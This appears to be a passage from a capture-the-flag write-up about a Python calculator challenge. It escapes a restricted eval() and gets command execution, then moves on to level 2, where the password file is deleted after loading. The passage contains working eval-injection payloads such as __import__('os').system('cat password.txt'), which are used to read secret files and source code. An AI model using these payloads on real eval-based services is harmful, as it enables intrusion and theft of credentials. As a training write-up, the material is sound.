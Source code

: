 It blocked the `open` function. Can't directly open the source or the password file... can't we?

Let's try a shell RCE. Since we can't do multiline statements - like `import os` and `os.system("cmd")` - in the `eval` call, we can import using a builtin function and then call it.

```python
__import__("os").system("cat password.txt")
```

```Krdi9yQuY8mHoteZDCF5Result: 0.  The correct answer was 1615348051.```

Let's try to check-in to the next level with it.

```Unlocked level 2```

Next!

### Level 2

Let's start with the previous payload.

```cat: password.txt: No such file or directory```

OK, we still have the RCE with the same payload, but there is no password file. Let's check the source code of level 2.

```python
__import__("os").system("cat problem.py")
```

Resulting in [problem2.py](https://github.com/Neptunians/utcft-2023-writeup-calculator/blob/main/problem2.py):

```python
import random, os
password = open("password.txt").read()
os.remove("password.txt") # No more reading the file!

solution = random.getrandbits(32)

answer = input()
result = eval(answer, {})

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
```

Now we are a little bit more restricted in the eval, but we have a bigger problem: the password file is just being deleted!

The information is in the `password` variable, but there is no file to read it.

We have (possibly) two options to get the correct result here:

1. Access the password variable
2. "Guess" the correct random number.
